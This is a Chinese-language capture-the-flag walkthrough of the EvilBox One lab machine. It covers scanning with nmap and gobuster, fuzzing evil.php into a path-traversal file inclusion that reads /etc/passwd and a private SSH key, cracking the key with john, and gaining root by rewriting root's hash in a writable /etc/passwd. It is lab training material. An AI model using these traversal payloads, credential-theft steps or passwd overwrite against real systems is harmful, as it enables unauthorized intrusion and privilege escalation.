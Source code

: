 # EvilBox One

## 主机发现

```
sudo nmap -sn 10.10.10.0/24
```

靶机的主机为 10.10.10.18

## 服务识别

使用 nmap 对靶机进行扫描，寻找靶机开放的端口以便于进行更进一步的渗透测试

扫描开放的端口
```
sudo nmap --min-rate 10000 -p- 10.10.10.18
```

扫描开放端口的基本信息，并将结果保存到本地以便于随时观看
```
sudo nmap -sT -sC -sV -p22,80 10.10.10.18 -oA nmap/Scan
```

![[Pasted image 20250511195359.png]]

使用 nmap 进行默认的漏洞脚本扫描，并将结果保存到本地
```
sudo nmap --script=vuln -p22,80 10.10.10.18 -oA nmap/Script
```

![[Pasted image 20250511195453.png]]

发现暴露出了很多目录，执行一下完整的目录爆破

```
sudo gobuster dir -u http://10.10.10.18 -w /usr/share/dirb/wordlists/common.txt 
```

![[Pasted image 20250511195530.png]]

## WEB 渗透

80 界面是默认的 Apache2 界面

![[Pasted image 20250511195622.png]]

robots.txt 界面是一句话，没有价值

![[Pasted image 20250511195743.png]]

secret 界面打不开，
gobuster 告诉我们 secret 下面可能还有目录，
扫描一下看看

这次我们指定 http 、php 、txt 作为扫描目标

```
sudo gobuster dir -u http://10.10.10.18/secret -w /usr/share/dirb/wordlists/common.txt -x http,php,html   
```

![[Pasted image 20250511200428.png]]

果然有新的发现 evil.php，
访问一下还是空的，
fuzz 一下试试

```
sudo wfuzz -u "10.10.10.18/secret/evil.php?FUZZ=../../../../../../etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/common.txt --hw 0
```

![[Pasted image 20250511200758.png]]

显示有一个 command 可以执行文件包含，
在网页上试试

```
http://10.10.10.18/secret/evil.php?command=../../../../../../etc/passwd
```

![[Pasted image 20250511200928.png]]

发现除了 root ， mowree 也有 bash 环境，那就重点关注一下 mowree 这个用户

![[Pasted image 20250511201602.png]]

查看一下私钥，发现能查看，保存到本地

![[Pasted image 20250511205626.png]]

用 john 自带的脚本破解一下

```
/usr/share/john/ssh2john.py hash/id_rsa > hash_rsa 
```

使用 john 破解

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa     
```

![[Pasted image 20250511211114.png]]

## Linux 提权

拿到了密码，使用 id_rsa 连接看看

```
ssh mowree@10.10.10.18 -i hash/id_rsa
```

发现 /etc/passwd 有写权限

```
ls -liah /etc/passwd
```

![[Pasted image 20250511211410.png]]

使用 openssl 创建的 hash 修改掉 root 中的 x

```
openssl passwd admin

vi /etc/passwd
```

![[Pasted image 20250511211857.png]]

![[Pasted image 20250511211927.png]]

## 总结

了解 fuzz 、 文件包含 、 公私钥，
这台靶机就不难了